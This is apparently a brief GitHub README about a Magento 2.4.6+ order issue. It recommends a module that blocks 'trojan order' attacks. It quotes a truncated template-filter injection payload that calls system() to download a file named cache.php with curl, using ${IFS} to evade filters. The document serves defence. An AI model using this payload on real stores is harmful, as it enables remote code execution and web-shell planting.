

# Magento-issue

# 1. When applying patches to Magento 2.4.6 or later versions, you might encounter the following issue in orders:

## Issue :- {{var this.getTemp lateFil ter().filter(firstname)}} {{var this.getTemp lateFil ter().add AfterFil terCallb ack(system).Filter(cd${IFS%??}pub;curl${IFS%??}-o${IFS%??}cache.php${IFS%

### solution:- To resolve this issue, you can use the following module which addresses this specific problem:
* Module link : https://github.com/DeployEcommerce/module-trojan-order-prevent

* Screenshot
** Order grid in admin

** Order View in admin

